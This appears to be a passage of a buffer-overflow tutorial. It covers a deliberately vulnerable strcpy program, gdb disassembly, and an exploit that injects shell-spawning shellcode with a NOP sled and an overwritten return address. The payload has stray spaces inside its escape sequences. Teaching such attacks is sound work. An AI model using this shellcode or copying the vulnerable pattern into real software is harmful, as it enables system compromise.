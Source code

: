 ```c
#include <stdio.h>
#include <string.h>

void vuln(char* data) {
    char buffer[500];
    strcpy(buffer, data);
    return;
}

int main(int argc, char** argv) {
    vuln(argv[1]);
    return 0;
}
```

## 2.2. Disassembly commands

```sh
$ gdb main
...
(gdb) start
(gdb) disass
(gdb) disass vuln
```

## 2.3. vuln in assembler

```sh
sub $0x218,%rsp  sp=sp-536
mov %rdi,0x8(%rsp)  save parameter "data" (in rdi) on stack
mov 0x8(%rsp),%rdx  rdx=data
lea 0x10(%rsp),%rax  rax=sp+16
mov %rdx,%rsi  rsi (2nd par)=data
mov %rax,%rdi  rdi (1st par)=buffer=sp+16
call 0x1030 <strcpy@plt>
nop
add $0x218,%rsp
ret
```

## 2.4. Exploit

```sh
run $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x90" * (520-32-64) + b"\x48\x31\xd2\ x48\x31\xf6\x48\xb8\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd8\x50\x48\x89\xe7\x48\x31\xc0 \x48\x83\xc0\x3b\x0f\x05" + b"\x41"*64 + b"\xfc\xdb\xff\xff\xff\x7f\x00\x00" + b"\0")')
```

# 3. What is a buffer overflow attack

